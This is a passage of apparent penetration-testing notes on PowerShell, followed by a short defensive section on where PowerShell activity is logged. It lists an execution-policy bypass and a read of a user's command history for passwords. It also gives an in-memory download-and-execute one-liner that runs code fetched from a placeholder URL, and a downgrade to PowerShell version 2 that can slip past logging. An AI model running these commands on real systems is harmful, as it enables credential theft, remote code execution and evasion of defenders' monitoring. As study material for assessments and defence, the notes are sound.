 This Cmdlet temporarily changes the execution policy for the current process using the `-Scope` parameter. The change reverts to its original state after the process ends, making it a safe option for non-permanent adjustments on a host.
```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

This Cmdlet retrieves environment variable values such as key paths, usernames, computer information, and more. It is particularly useful for gathering host-related metadata during assessments.
```powershell
Get-ChildItem Env: | ft Key,Value
```

This Cmdlet fetches the PowerShell history of a specific user. This history can contain useful information, such as commands that reveal passwords, file paths, or configuration details.
```powershell
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

This command is a quick and efficient way to download and execute a file from the web directly in memory using PowerShell. The `-nop` (No Profile) parameter ensures PowerShell runs without loading the user profile, while `iex` (Invoke-Expression) executes the downloaded content.
```powershell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('<URL>'); <follow-on commands>"
```

**Downgrade Powershell**
``` powershell
Get-host
powershell.exe -version 2
```
---

## Examining the PowerShell **Event Log**
The **PowerShell Operational Log** is a valuable source for tracking PowerShell activity on a system. You can find it at:

> `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`

### 🔍 **Key Points to Understand**

1. **Command Logging Location**
    - All PowerShell commands executed during a session are logged here.
    - Another useful log is the **Windows PowerShell Log**, found at:
        
        > `Applications and Services Logs > Windows PowerShell`
        
2. **[Script Block Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2)**
    
    - When **Script Block Logging** is enabled:
        - Everything typed into the PowerShell terminal is recorded.
        - This helps defenders see the full contents of executed scripts or commands.
    - Documentation: [Microsoft Script Block Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2)
        